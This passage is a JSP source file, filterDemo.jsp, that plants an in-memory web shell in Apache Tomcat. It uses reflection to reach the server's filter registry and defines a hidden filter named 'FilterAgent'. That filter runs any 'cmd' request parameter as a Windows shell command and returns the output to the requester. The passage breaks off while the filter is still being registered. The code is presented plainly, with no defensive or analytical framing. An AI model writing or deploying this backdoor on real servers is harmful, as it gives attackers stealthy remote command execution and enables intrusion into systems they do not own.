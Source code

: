 filterDemo.jsp

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
  final String name = "FilterAgent";
  ServletContext servletContext = request.getSession().getServletContext();

  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

  Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
  Configs.setAccessible(true);
  Map filterConfigs = (Map) Configs.get(standardContext);

  if (filterConfigs.get(name) == null){
    Filter filter = new Filter() {
      @Override
      public void init(FilterConfig filterConfig) throws ServletException {

      }

      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
          byte[] bytes = new byte[1024];
          Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
          int len = process.getInputStream().read(bytes);
          servletResponse.getWriter().write(new String(bytes,0,len));
          process.destroy();
          return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
      }

      @Override
      public void destroy() {

      }

    };


    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
```